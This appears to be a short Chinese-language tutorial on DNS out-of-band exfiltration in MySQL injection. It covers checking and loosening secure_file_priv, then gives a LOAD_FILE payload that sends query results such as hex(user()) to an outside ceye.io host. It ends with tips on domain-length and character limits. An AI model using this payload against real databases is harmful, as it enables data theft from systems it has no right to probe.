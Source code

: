 - mysql执行：show variables like '%secure%';
- 查看load_file()可以读取的磁盘。

1. 当secure_file_priv为空，就可以读取全部磁盘的文件。
2. 当secure_file_priv为G:\，就可以读取G盘的文件。
3. 当secure_file_priv为null，load_file就不能加载文件。

```plain
mysql> show variables like '%secure%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
2 rows in set (0.00 sec)
```

## 0x02 my.ini 修改

本地测试时，如果权限不够可以修改一下

1. 打开my.ini
2. 搜索一下secure_file_priv
3. 有就修改为 secure_file_priv=""
4. 没有就添加这一句：secure_file_priv=""
5. 重新mysql

## 0x03 测试

```plain
记忆方式：select LOAD_FILE(CONCAT('\\\\',(select payload),'.11b7kdti.ceye.io\\abc'));
实战：select LOAD_FILE(CONCAT('\\\\',(select hex(user())),'.11b7kdti.ceye.io\\abc'));;
```

## 0x04 注意点

1. 域名前缀长度限制在63个字符，解决办法是用mid()之类的函数来获取。
2. 域名前缀不支持一些特殊字符，如*,解决办法是用hex()或者其他加密函数，获取到数据后再解密。